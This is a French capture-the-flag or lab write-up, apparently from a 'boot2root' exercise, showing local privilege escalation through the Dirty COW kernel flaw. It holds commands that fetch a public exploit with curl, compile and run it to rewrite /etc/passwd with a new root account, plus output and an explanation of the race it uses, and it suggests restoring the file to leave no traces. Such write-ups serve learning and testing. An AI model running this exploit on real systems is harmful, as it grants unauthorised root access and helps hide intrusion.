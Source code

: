 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.
-   scp -r -p user@serveur1:chemin/vers/dossier/source user@serveur2:chemin/vers/dossier/destination (envoyer le _script2.sh_ vers _laurie_)

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

```
$> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                Dload   Upload  Total   Spent    Left  Speed
100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
$> gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty "petdefeu"
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: petdefeu
Complete line:
firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'petdefeu'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix durant 9 ans. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` est utilisé, cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé.


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, utile pour le processus parent
- `kill` processus enfant
- `pthread_join` suspends le processus enfant

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

```bash
$> su firefart
Password:
``` 

Nous pouvons vérifier que nous avons tous les droits en tapant la commande `id`:

```bash
$> id
uid=0(firefart) gid=0(root) groups=0(root)
```

__Bravo ! Vous êtes root !__
